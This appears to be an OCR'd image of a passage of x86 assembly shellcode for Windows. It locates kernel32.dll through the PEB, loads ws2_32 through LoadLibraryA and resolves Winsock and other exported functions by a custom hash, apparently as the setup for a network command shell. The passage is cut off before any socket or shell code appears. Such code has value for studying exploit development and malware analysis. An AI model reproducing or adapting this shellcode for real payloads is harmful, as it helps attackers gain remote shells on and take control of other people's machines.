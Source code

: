 ```asm
                ; before "cmd") 
    
  ; find base addr of kernel32.dll 
    mov ebx, fs:[edx + 0x30] 	; ebx = address of PEB 
    mov ecx, [ebx + 0x0c] 		; ecx = pointer to loader data 
    mov ecx, [ecx + 0x1c] 		; ecx = first entry in initialisation order list 
    mov ecx, [ecx] 				; ecx = second entry in list (kernel32.dll) 
    mov ebp, [ecx + 0x08] 		; ebp = base address of kernel32.dll 
    
  ; make some stack space 
    mov dh, 0x03 			; sizeof(WSADATA) is 0x190 
    sub esp, edx 
    
  ; push a pointer to "ws2_32" onto stack 
    mov dx, 0x3233 			; rest of edx is null 
    push edx 
    push 0x5f327377 
    push esp 

    
  find_lib_functions: 
    lodsb 					; load next hash into al and increment esi 
    cmp al, 0xd3 				; hash of WSAStartup - trigger 
                ; LoadLibrary("ws2_32") 
    jne find_functions 
    xchg eax, ebp 			; save current hash 
    call [edi - 0xc] 			; LoadLibraryA 
    xchg eax, ebp 			; restore current hash, and update ebp 
                ; with base address of ws2_32.dll 
    push edi 					; save location of addr of first winsock function 
    
  find_functions: 
    pushad 						; preserve registers 
    mov eax, [ebp + 0x3c]		; eax = start of PE header 
    mov ecx, [ebp + eax + 0x78]	; ecx = relative offset of export table 
    add ecx, ebp 				; ecx = absolute addr of export table 
    mov ebx, [ecx + 0x20] 		; ebx = relative offset of names table 
    add ebx, ebp 				; ebx = absolute addr of names table 
    xor edi, edi 				; edi will count through the functions 

    
  next_function_loop: 
    inc edi 					; increment function counter 
    mov esi, [ebx + edi * 4] 	; esi = relative offset of current function name 
    add esi, ebp 				; esi = absolute addr of current function name 
    cdq 						; dl will hold hash (we know eax is small) 
    
  hash_loop: 
    lodsb 					; load next char into al and increment esi 
    xor al, 0x71 				; XOR current char with 0x71 
    sub dl, al 				; update hash with current char 
    cmp al, 0x71 				; loop until we reach end of string 
    jne hash_loop 
    cmp dl, [esp + 0x1c] 		; compare to the requested hash (saved on stack from pushad) 
    jnz next_function_loop 
    
                  ; we now have the right function 
    
    mov ebx, [ecx + 0x24] 		; ebx = relative offset of ordinals table 
    add ebx, ebp 				; ebx = absolute addr of ordinals table 
    mov di, [ebx + 2 * edi] 		; di = ordinal number of matched function 
    mov ebx, [ecx + 0x1c] 		; ebx = relative offset of address table 
    add ebx, ebp 				; ebx = absolute addr of address table 
```